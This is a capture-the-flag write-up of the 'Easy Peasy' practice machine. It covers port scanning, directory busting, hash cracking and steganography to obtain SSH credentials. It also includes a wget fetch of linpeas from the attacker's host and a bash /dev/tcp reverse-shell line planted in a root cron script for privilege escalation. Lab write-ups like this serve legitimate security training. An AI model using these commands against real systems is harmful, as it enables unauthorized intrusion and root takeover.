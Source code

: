 # Easy Peasy Walkthrough WriteUp

Scanning this machine using NMAP `nmap -vv -oN nmap-basic IP`, doing this way, NMAP searches the top ports and gives a brief about the top ports present, in a way more faster manner, when compared with including all the flags. Then we can use flags on specific ports. - `nmap -sC -sV -vv -A -px,x,x -oN nmap-detailed IP` <br>
On completion, NMAP gives 1 port open `80` and it seems to be running a ngnix web server.

We can start to enumarate the web-server and find out the directories, we could `wfuzz`, `gobuster`, etc.
I personally like `gobuster` for this task so we can run it side by side NMAP, for getting all the ports.(if any)

Till these tools run, we can go and manually search for some common files that are expected to be in a webserver like `robots.txt` <br>
Not much of a luck there!! It doesn't give us any useful info,
```
User-Agent:*
Disallow:/
Robots Not Allowed
```

While the NMAP is still running we can analyze the results spit by gobuster.<br>
```
$ gobuster dir -u IP -w ~/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://IP
[+] Threads:        10
[+] Wordlist:       /home/cardinal/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/09 01:59:47 Starting gobuster
===============================================================
/hidden (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
===============================================================
2020/08/09 02:03:41 Finished
===============================================================
```

Few new files, could be seen and one seems interesting - `hidden` have 301 (Moved Permanently) status code. But inspite of that we shall check that in our browser. And we are greeted with an image incorporated directly from pixabay. So, nothing useful...keeping on our directory busting, inside hidden we found another intersting directory `/xxxxxxxxxxx` and in it's source code there is a base64 hash which decodes to the first flag.

In the meanwhile, NMAP all-ports scan is complete and we found there are 3 ports open in total. Running those 3 ports with `nmap -sC -sV -p80,6498,65524 -vv -oN nmap-detailed -T4 IP`, which yielded the result,
```
PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack nginx 1.16.1
| http-methods: 
|_  Supported Methods: GET HEAD
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So, we got more things to look upon,
1. Apache WebServer
2. Ngnix WebServer
3. SSH

We moved to enumerate the Apache WebServer http://IP:65524/ and it gives a basic Apache config page, firstly we run gobuster in the background. Since gobuster by default searches for websites on port 80, we have to use proxy and cook the command like this - `gobuster dir -p http://IP:65524 -u http://IP -w ~/SecLists/Discovery/Web-Content/common.txt`.
<br><br>
    Manually looking through the source code of the same we found some interesting stuff,
```
<span class="floating_element">
          Apache 2 It Works For Me
	<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
</span>
```

Looking at this message it comes to mind, that the hash must be baseSomething. Let's jump into CyberChef and check our claim.
<br>
The encoding turns out to be `base62` which gives - `/xxxxxxxxxxxxxxx`. This looks like some kind of directory <- We will look this later.
<br>
<br>
Further go through the source code, it contains lots of juicy information - a flag.

Since it is a web server, we will go for `robots.txt`, there we find some more juicy stuff,
```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
Here we get a hash(which seems to me like a md5 hash), our first step will be to crack it, for this we are gonna use a website [MD5Hashing](md5hashing.net), which yields us another flag.


After we are satisfied with whatever we have done with this page, then we move to `/xxxxxxxxxxxxxxx`, and once again we are greeted with an image and looking the source code gave us another hash. So, we have two things:
* Image
* Hash

```
<body>
<center>
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
</center>
</body>
```

On doing some research online, found out a tool called [hash-identifier](https://gitlab.com/kalilinux/packages/hash-identifier) and passing the hash through it, it gives us a list of possible hashes.

```
 HASH: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
```

Trying to crack the hash one by one using MD5Hashing using the given hashes, a hit came in `GOST` hashing algorithm. It got cracked!
<br>
We have no clue for what this password will be used, so we will keep it on hold. We hav got a image and we can try some stegography using `steghide` and this password might be used for extraction. Let's see!

```
$ steghide extract -sf binarycodepixabay.jpg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```

Used that password to extract the `secrettext.txt`. And in that we get another set of credentails. And password seems to be encrypted!
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

On decoding the password we have another set of credentials and the only place I could think of now is SSH that we found on port 6498. Let give it a try!

Voila! We got into the server!!

And retrive the user.txt, with the following message,
```
$ ssh boring@10.10.30.104 -p 6498
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.30.104's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{xxxxxxxxxxxxxxx}
```

Trying to do some rotation using ROT13 may provide us with some sensible output. And yes, it did, we have another flag! 
<br>
Since, we have the user's flag now we also have to find the root's flag. Let's try for that...
As we are into the machine, we can try and enumerate the machine by running linpeas.
<br>
To get the linpeas into the remote machine, I created a simple python web server - and used wget to download the file from my machine to remote machine.

On my machine...
```
$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

On remote machine...
```
boring@kral4-PC:~$ wget myIP:1234/linpeas.sh
```

And made `linpeas.sh` executeable and run it. While analyzing the log generated by linpeas, one specific file bothered me the most - `/var/www/.mysecretcronjob.sh `

This file has permission and this can be run as root so we can use this to get the root flag, by getting a reverse shell on this machine as a root.

```
bash -i >& /dev/tcp/myIP/8080 0>&1
```

After opening a listener in our machine, we run `crontab` in remote machine and we get back a shell which is root. Yay!!

Voila! we get a flag, which was hidden in `.root.txt`!!

Box Pwned!!
